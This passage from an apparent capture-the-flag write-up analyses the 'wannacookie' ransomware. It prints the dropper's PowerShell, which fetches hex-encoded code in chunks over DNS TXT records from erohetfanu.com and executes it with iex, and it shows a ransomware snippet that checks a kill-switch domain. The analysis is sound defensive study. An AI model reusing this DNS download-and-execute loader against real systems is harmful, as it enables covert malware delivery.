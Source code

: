 ```
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E61636F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))
```
From the readable code, we can see that the macro communicates with the server **erohetfanu.com**.

The server domain erohetfanu is the ROT13-reverse encoding of again hansgruber.

## 9.c. Stop the malware
Alabaster tells us that blocking erohetfanu will not completely eradicate the ransomware, since Snort rules also show other domains being queried. There are likely multiple versions of the ransomware that contact different domains. We remember the ransomware WannaCry from summer 2017 that had a kill switch in its source code. Possibly, this type of ransomware would also have such a mechanism.

The powershell code presented in challenge 9.b. is simply the dropper of the ransomware. The dropper works as follows:
1. Over DNS a file is requested from the server erohetfanu.com. The file name is specified in a hexadecimal encoding and is send to the server as a subdomain.
2. The server then resonds with a TXT record with an integer value that indicates the number of blocks the requested file is split up into, The requested file cannot be replied back in the same DNS request, due to the file size.
3. Then for each block, the macro queries the subdomain prepended with the block number and appends the result. This process eventually results in the ransomware code.

The above procedure is executed for the file `wannacookie.min.ps1`, but possibly a non-minified version of the ransomware source code is also available. We therefore want to access the file `wannacookie.ps1`. We can request that file by executing the macro code for the subdomain `77616E6E61636F6F6B69652E707331`, which is the hexadecimal encoding for `wannacookie.ps1`. 

The file `wannacookie.ps1` exists and our method returns the full source code of the ransomware. The source code contains a number of encryption and character encoding conversions. On the bottom we see the function `wannacookie` which is the main function of the code. Our goal is to identify a possible kill switch from the code.

We immediately see the following statement at the beginning of the `wannacookie` function.

```powershell
 $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000";
 if ($null -ne((Resolve-DnsName -Name $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))).ToString() -ErrorAction 0 -Server 8.8.8.8))) {
  return
 };
```

From the above code snippet, we see that the main function returns, i.e. stops, before encrypting files on the system, if the `if`-statement evaluates to true. The statement checks whether a certain DNS name cannot be resolved, To identify the DNS name in question, we can execute the code that is used to compute the DNS name.

```powershell
$S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000";
H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))
```

